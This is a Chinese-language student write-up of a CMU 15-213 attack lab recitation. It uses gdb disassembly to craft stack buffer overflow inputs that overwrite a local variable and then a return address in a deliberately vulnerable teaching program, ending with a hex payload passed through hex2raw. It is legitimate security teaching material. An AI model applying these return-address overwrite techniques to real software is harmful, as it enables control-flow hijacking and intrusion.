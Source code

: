 # Attack lab recitation 记录

- [Attack lab recitation 记录](#attack-lab-recitation-记录)
    - [普通缓冲区溢出](#普通缓冲区溢出)
    - [包含返回地址攻击的缓冲区溢出](#包含返回地址攻击的缓冲区溢出)
    - [引导程序到攻击代码](#引导程序到攻击代码)

输入`gdb activity`，开启 activity 之旅。

> Objective: The goal of this activity is to input a string that causes the program to call win(0x15213),
> and thereby win a cookie.
> 在开启之前，先查看一下`solve`函数的内容：

```c
void solve(void) {
    volatile long before = 0xb4;
    char buf[16];
    volatile long after = 0xaf;

    Gets(buf);

    if (before == 0x3331323531) {
        win(0x15213);
    }

    if (after == 0x3331323831) {
        win(0x18213);
    }
}
```

看一下`solve`的汇编代码：

```
(gdb) disas solve
Dump of assembler code for function solve:
   0x00000000000011df <+0>:     endbr64
   0x00000000000011e3 <+4>:     sub    $0x38,%rsp
   0x00000000000011e7 <+8>:     movq   $0xb4,0x28(%rsp)
   0x00000000000011f0 <+17>:    movq   $0xaf,0x8(%rsp)
   0x00000000000011f9 <+26>:    lea    0x10(%rsp),%rdi
   0x00000000000011fe <+31>:    callq  0x1279 <Gets>
   0x0000000000001203 <+36>:    mov    0x28(%rsp),%rdx
   0x0000000000001208 <+41>:    movabs $0x3331323531,%rax
   0x0000000000001212 <+51>:    cmp    %rax,%rdx
   0x0000000000001215 <+54>:    je     0x1230 <solve+81>
   0x0000000000001217 <+56>:    mov    0x8(%rsp),%rdx
   0x000000000000121c <+61>:    movabs $0x3331323831,%rax
   0x0000000000001226 <+71>:    cmp    %rax,%rdx
   0x0000000000001229 <+74>:    je     0x123c <solve+93>
   0x000000000000122b <+76>:    add    $0x38,%rsp
   0x000000000000122f <+80>:    retq
   0x0000000000001230 <+81>:    mov    $0x15213,%edi
   0x0000000000001235 <+86>:    callq  0x1169 <win>
   0x000000000000123a <+91>:    jmp    0x1217 <solve+56>
   0x000000000000123c <+93>:    mov    $0x18213,%edi
   0x0000000000001241 <+98>:    callq  0x1169 <win>
   0x0000000000001246 <+103>:   jmp    0x122b <solve+76>
End of assembler dump.
```

函数给`solve`预留了 56 个字节的空间：

1. `before = 0xb4`移动到`%rsp + 40`处
2. `after = 0xaf`移动到`%rsp + 8`处
3. `%rdi = %rsp + 16`
4. 调用`gets`
5. `%rdx = *(%rsp + 40)`，把`before`赋给`%rdx`
6. `%rax = $0x3331323531`
7. 接下来是个判断：

```c
if(rdx == rax) {
    edi = 0x15213;
    callq win
}
rdx = *(rsp + 8);
rax = 0x3331323831;
if(rdx == rax) {
  edi = 0x18213;
  callq win;
}
rsp += 40;
return;
```

完成`gets`之前的调用后，栈分布大致如下（一共 56 个字节的分配）：

1. `rsp`处没有值
2. `rsp + 8`处存储`after = 0xaf`
3. `rsp + 16 ~ rsp + 24`处存储 16 字节的`buf`
4. `rsp + 32`处 8 个字节空闲
5. `rsp + 40`处存储`before = 0xb4`
6. `rsp + 56`处存储的是调用`solve`的`return address`

### 普通缓冲区溢出

查看代码可以理解，要让程序调用`win(0x15213)`，需要让`rdx == 0x3331323531`，而在这之前`rdx = before`，所以我们的根本目的是让`before = 0x3331323531`。就得让`buf`前 24 个字节为 0，后八个字节等于`0x3331323531`。该机器为小端法机器，那么这 8 个字节从低地址到高地址的顺序应该是：`0x31 0x35 0x32 0x31 0x33 0x00 0x00 0x00`，这 8 个个字节翻译成`ASCII码`就是`15213`。此外`gets`一定要读到`\n`字符，它会把`\n`替换为`\0`字符。它不是读到`\0`字符就终止。后面不需要加`0`，因为`0`的`ASCII`编码是`0x30`。如果最后加了 3 个`0`的话，最后 8 个字节的地址就会变成`0x31 0x35 0x32 0x31 0x33 0x30 0x30 0x30`。

> 有几条要注意的点：
>
> 1. 机器为小端法机器，写内存的时候要把数字倒过来
> 2. `0x00`是在 ASCII 码里面是空字符，`0x30`在 ASCII 码里面是`0`
> 3. `gets`要读到`\n`，他会把`\n`替换成`\0`存储在`buf`中，无需手动`\0`
> 4. 输入的时候只能输入字符串，而不能输入 10 进制或者 16 进制的值，如果函数没有调用`atoi`，输入一律被当作字符串处理。因此我们需要输入`0x3331323531`对应的`ASCII`编码，而不是这个值本身。

输入`01234567890123456789012315213`，成功调用`win(0x15213)`。如下：

```
gwen@gwen-virtual-machine:~/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src$ ./activity
01234567890123456789012315213
You win 1 cookie! Great start!
Returning normally from main
```

### 包含返回地址攻击的缓冲区溢出

要让这个`solve`函数跳转到我们插入的代码段（未开启栈随机化/`canary`/`NX bit`及其他防护机制，不考虑`nop sled`），我们需要利用缓冲区溢出，让`return address`修改为我们所插入的代码段的地址。我们需要让`buf`的前 40 个字节为任意内容，最后 8 个字节为我们插入的攻击代码的地址。

我们这次的目的是想调到`<solve +93>`位置处，本次运行过程中该位置的地址是`0x000055555555523c`，过会儿我们要将其插入`buf`的第 48-48 字节处。该地址的值换算成小端法是`0x3c 0x52 0x55 0x55 0x55 0x55 0x00 0x00`。其对应的`ASCII码`是`<RUUUU`，后面的`null`为`0x00`。我们要让程序返回的时候跳转到`mov $0x18213,%edi`。那么构造的字符串应该是`0123456789012345678901234567890123456789<RUUUU`。结果如下：

```
43          if (after == 0x3331323831) {
(gdb) n
solve () at activity.c:44
44              win(0x18213);
(gdb)
You win 2 cookies! Woohoo!
0x0000000000000000 in ?? ()
```

成功！

### 引导程序到攻击代码

此处我们进行更进阶的攻击，程序中函数`solve()`并未调用过`win(0x18613)`，让我们尝试返回到`win(0x18613)`中。此时我们不光只破解`solve()`，还需要对`win`函数的代码进行分析。结果如下：

```
(gdb) disas win
Dump of assembler code for function win:
   0x0000555555555169 <+0>:     endbr64
   0x000055555555516d <+4>:     sub    $0x8,%rsp
   0x0000555555555171 <+8>:     cmp    $0x15213,%edi
   0x0000555555555177 <+14>:    je     0x5555555551a7 <win+62>
   0x0000555555555179 <+16>:    cmp    $0x18213,%edi
   0x000055555555517f <+22>:    je     0x5555555551b5 <win+76>
   0x0000555555555181 <+24>:    cmp    $0x18613,%edi
   0x0000555555555187 <+30>:    je     0x5555555551c3 <win+90>
   0x0000555555555189 <+32>:    mov    0x2ea1(%rip),%eax        # 0x555555558030 <mystery>
   0x000055555555518f <+38>:    cmp    $0x15513,%eax
   0x0000555555555194 <+43>:    je     0x5555555551d1 <win+104>
   0x0000555555555196 <+45>:    lea    0xed3(%rip),%rdi        # 0x555555556070
   0x000055555555519d <+52>:    callq  0x555555555030 <puts@plt>
   0x00005555555551a2 <+57>:    add    $0x8,%rsp
   0x00005555555551a6 <+61>:    retq
   0x00005555555551a7 <+62>:    lea    0xe5a(%rip),%rdi        # 0x555555556008
   0x00005555555551ae <+69>:    callq  0x555555555030 <puts@plt>
   0x00005555555551b3 <+74>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551b5 <+76>:    lea    0xedc(%rip),%rdi        # 0x555555556098
   0x00005555555551bc <+83>:    callq  0x555555555030 <puts@plt>
   0x00005555555551c1 <+88>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551c3 <+90>:    lea    0xe5e(%rip),%rdi        # 0x555555556028
   0x00005555555551ca <+97>:    callq  0x555555555030 <puts@plt>
   0x00005555555551cf <+102>:   jmp    0x5555555551a2 <win+57>
   0x00005555555551d1 <+104>:   lea    0xe78(%rip),%rdi        # 0x555555556050
   0x00005555555551d8 <+111>:   callq  0x555555555030 <puts@plt>
   0x00005555555551dd <+116>:   jmp    0x5555555551a2 <win+57>
End of assembler dump.
```

我们需要跳转到`if(arg == 0x18613)`后面那句，也就是`<win+90>`处，该条指令的地址是`0x00005555555551c3`，转化成小端法是`0xc3 0x51 0x55 0x55 0x55 0x55 0x00 0x00`，转化成`ASCII码`也就是`ÃQUUUU`。因此，我们构造的字符串应该是`0123456789012345678901234567890123456789ÃQUUUU`。结果如下：

```
(gdb) p $rsp
$2 = (void *) 0x555555559018 <my_stack+4056>
(gdb) x/s 0x555555559018
0x555555559018 <my_stack+4056>: "ÃQUUUU"
(gdb) x/6bx 0x555555559018
0x555555559018 <my_stack+4056>: 0xc3    0x83    0x51    0x55    0x55    0x55
```

这里出现了一点问题，就是`Ã`采用`Unicode`扩展编码，其编码为`0xc3 0x83`，而我们仅仅需要`0xc3`，因此我们需要将 16 进制的地址写在文件里，然后用文件作为`activity`的输入。

[Slides 中最后一页](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f23/www/recitations/rec04_slides.pdf)告诉我们，提供了`hex2raw`脚本，可以把 16 进制值写到`input2.txt`中，然后通过`hex2raw`转化为`input2.bin`。我们在`input2.txt`中写入值`30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 31 35 32 31 33 00 30 31 32 33 34 35 36 37 38 39 c3 51 55 55 55 55`，将其转化，然后输入`./activity < ../inputs/input2.bin`。
结果如下：

```
(gdb) r < ../inputs/input2.bin
Starting program: /home/gwen/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src/activity < ../inputs/input2.bin
You win 3 cookies! That's right!

Program received signal SIGSEGV, Segmentation fault.
```

成功！
